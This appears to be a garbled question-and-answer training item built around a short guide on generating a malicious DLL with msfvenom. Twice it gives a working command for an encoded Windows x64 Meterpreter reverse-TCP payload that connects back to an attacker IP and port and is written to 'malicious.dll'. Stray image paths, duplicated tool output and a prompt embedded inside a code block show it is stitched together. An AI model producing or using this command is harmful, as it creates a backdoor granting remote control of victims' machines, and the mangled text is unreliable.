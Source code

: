Context:```

`

# How to generate a dll with msfvenom
This command uses `msfvenom` to create a DLL payload that establishes a reverse TCP connection to the specified attacker's IP and port.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.6 LPORT=4444 -f dll -e x64/shikata_ga_nai -i 5 -o malicious.dll
Payload advanced options (windows/x64/meterpreter/reverse_tcp):
Payload advanced options (windows/x64/meterpreter/reverse_tcp):

 Question: Generate a command to create a Windows DLL payload using Metasploit’s msfvenom tool, designed for a reverse TCP connection. The command should include the necessary payload settings (windows/meterpreter/reverse_tcp), specify LHOST and LPORT as appropriate, and ensure that the output format is set to DLL. 

 Your response: 
```

### Answer:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.6 LPORT=4444 -f dll -e x64/shikata_ga_nai -i 5 -o malicious.dll
```